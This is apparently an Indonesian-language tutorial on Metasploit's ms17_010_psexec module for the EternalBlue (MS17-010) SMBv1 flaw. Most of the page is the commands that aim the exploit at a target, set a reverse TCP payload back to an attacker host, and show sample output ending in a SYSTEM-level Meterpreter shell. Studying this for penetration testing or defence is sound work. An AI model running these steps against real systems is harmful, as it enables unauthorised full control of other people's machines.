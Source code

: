 # ms17_010_psexec

Modul `ms17_010_psexec` di Metasploit adalah modul `exploit remote` yang menggabungkan eksploitasi kerentanan `SMBv1` (`MS17-010` / `EternalBlue`) dengan teknik eksekusi berbasis `PsExec`. Setelah berhasil mengeksploitasi kerentanan `EternalBlue` untuk mendapatkan akses awal, modul ini menggunakan teknik `PsExec` untuk men-deploy dan mengeksekusi payload sebagai pengguna `SYSTEM`, memberikan kontrol penuh atas sistem target secara remote.

## Cara Penggunaan di Metasploit

```
use exploit/windows/smb/ms17_010_psexec
set PAYLOAD <PAYLOAD>
set RHOSTS <IP_TARGET>
set RPORT 445
set SMBUser <USERNAME>
set SMBPass <PASSWORD>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] 192.168.1.52:445 - Authenticating to 192.168.1.52 as user 'admin'...
[*] 192.168.1.52:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 192.168.1.52:445 - Connected to named pipe: \netlogon
[*] 192.168.1.52:445 - Frag pool info leak: arch=x64, size=0x10
[*] 192.168.1.52:445 - Attempting leak #0
[*] 192.168.1.52:445 - Leaked connection struct (0xfffffa80036517a0), performing WriteAndX type confusion
[*] 192.168.1.52:445 - Control of groom transaction
[*] 192.168.1.52:445 - Built a write-what-where primitive...
[*] 192.168.1.52:445 - Overwrote IsNullSession = 0, IsAdmin = 1 at 0xfffff8a001f09e9a
[*] 192.168.1.52:445 - Overwrote token SID security context with fake context
[+] 192.168.1.52:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.1.52:445 - Checking for System32\WindowsPowerShell\v1.0\powershell.exe
[*] 192.168.1.52:445 - PowerShell found
[*] 192.168.1.52:445 - Selecting PowerShell target
[*] 192.168.1.52:445 - Powershell command length: 4355
[*] 192.168.1.52:445 - Executing the payload...
[*] 192.168.1.52:445 - Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.52[\svcctl] ...
[*] 192.168.1.52:445 - Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.52[\svcctl] ...
[*] 192.168.1.52:445 - Obtaining a service manager handle...
[*] 192.168.1.52:445 - Creating the service...
[+] 192.168.1.52:445 - Successfully created the service
[*] 192.168.1.52:445 - Starting the service...
[+] 192.168.1.52:445 - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.1.52:445 - Removing the service...
[+] 192.168.1.52:445 - Successfully removed the service
[*] 192.168.1.52:445 - Closing service handle...
[+] 192.168.1.52:445 - SYSTEM session cleaned up.
[*] Sending stage (177734 bytes) to 192.168.1.52
[*] Meterpreter session 3 opened (192.168.1.11:4444 -> 192.168.1.52:49307) at 2025-05-17 09:05:11 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
